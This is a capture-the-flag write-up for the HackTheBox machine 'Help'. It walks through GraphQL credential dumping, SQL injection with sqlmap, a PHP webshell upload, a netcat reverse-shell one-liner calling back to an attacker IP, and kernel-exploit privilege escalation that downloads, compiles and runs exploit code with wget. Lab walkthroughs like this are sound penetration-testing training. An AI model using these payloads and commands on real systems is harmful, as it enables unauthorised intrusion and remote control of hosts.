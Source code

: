 

## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- **Initial Access**: GraphQL → HelpDeskZ Authenticated SQLi / Unauth File Upload
- **Privilege Escalation**: Kernel Exploit (CVE-2017-16995, etc.)

---

## 🔍 Recon

### 🔎 Full TCP Scan
```bash
nmap -sT -p- --min-rate 10000 -oA nmap/alltcp 10.10.10.121
```

### 🔍 Service Detection
```bash
nmap -sC -sV -p 22,80,3000 -oA nmap/scripts 10.10.10.121
```

---

## 🌐 Web Recon – Port 3000 (GraphQL)

### 📊 Discover Schema
```bash
curl -s 10.10.10.121:3000/graphql -H "Content-Type: application/json" \
-d '{ "query": "{ __schema { queryType { name, fields { name, description } } } }" }' | jq
```

### 📚 View User Type Fields
```bash
curl -s 10.10.10.121:3000/graphql -H "Content-Type: application/json" \
-d '{ "query": "{ __type(name: \"User\") { name fields { name } } }" }' | jq
```

### 🔐 Dump User Credentials
```bash
curl -s 10.10.10.121:3000/graphql -H "Content-Type: application/json" \
-d '{ "query": "{ user { username password } }" }' | jq
```

- **Username**: `helpme@helpme.com`  
- **Password (MD5)**: `5d3c93182bb20f07b994a7f617e99cff`  
- **Cracked**: `godhelpmeplz`

---

## 🌐 Web Recon – Port 80 [(Apache)](HTTP)

### 🧭 Directory Brute Force
```bash
gobuster -u http://10.10.10.121 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 50
```

### 🔍 Discover `/support` (HelpDeskZ)
Login with:
- **Email**: `helpme@helpme.com`
- **Password**: `godhelpmeplz`

---

## 🐚 Shell Access – Method 1: SQLi via Ticket Attachment

### 🔎 Identify SQLi
Modify param in:
```
http://10.10.10.121/support/?v=view_tickets&action=ticket&param[]=4&param[]=attachment&param[]=1&param[]=6
```

Try:
- `...6 AND 1=1-- -` → ✅
- `...6 AND 1=2-- -` → ❌

### ⚙️ Dump with sqlmap
1. Save request in Burp (e.g., `ticket_attachment.request`)
2. Run:
```bash
sqlmap -r ticket_attachment.request --level 5 --risk 3 -p param[] --dump
```

### 🔐 Extracted Creds
- **Username**: `admin`
- **Password**: `Welcome1`

### 🔑 [SSH](SSH) as help
```bash
ssh help@10.10.10.121
# Password: Welcome1
```

---

## 🐚 Shell Access – Method 2: File Upload Exploit

### ⚙️ Upload Webshell
Use:
```php
<?php system($_REQUEST['cmd']); ?>
```

### 🔍 Brute Upload Location (based on time + md5)
```python
# Save as exploit.py
./exploit.py http://10.10.10.121/support/uploads/tickets/ cmd.php
```

### 🧪 Webshell Test
```bash
curl http://10.10.10.121/support/uploads/tickets/<shell>.php?cmd=id
```

### 🎯 Reverse Shell Payload
```bash
curl 'http://10.10.10.121/support/uploads/tickets/<shell>.php?cmd=rm+/tmp/f;mkfifo+/tmp/f;cat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.4+443+>/tmp/f'
nc -lnvp 443
```

---

## 🧬 Shell Upgrade
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
# Ctrl+Z
stty raw -echo
fg
reset
# Enter: screen
export TERM=screen
```

---

## ⬆️ Privilege Escalation (help → root)

### 📌 Kernel Version
```bash
uname -a
# 4.4.0-116-generic
```

### 🧠 Use Exploits (CVE-2017-16995)
- Move to `/dev/shm`
- Start web server:
```bash
python3 -m http.server 80
```

- On target:
```bash
wget http://10.10.14.4/44298.c
gcc -o a 44298.c
./a
```

Or:

```bash
wget http://10.10.14.4/45010.c
gcc -o a 45010.c
./a
```

Or:

```bash
wget http://10.10.14.4/exploit.sh
chmod +x exploit.sh
./exploit.sh
```

---

## 🏁 Final Flags

### 🧑‍💻 User Flag
```bash
cat /home/help/user.txt
```

### 👑 Root Flag
```bash
cat /root/root.txt
```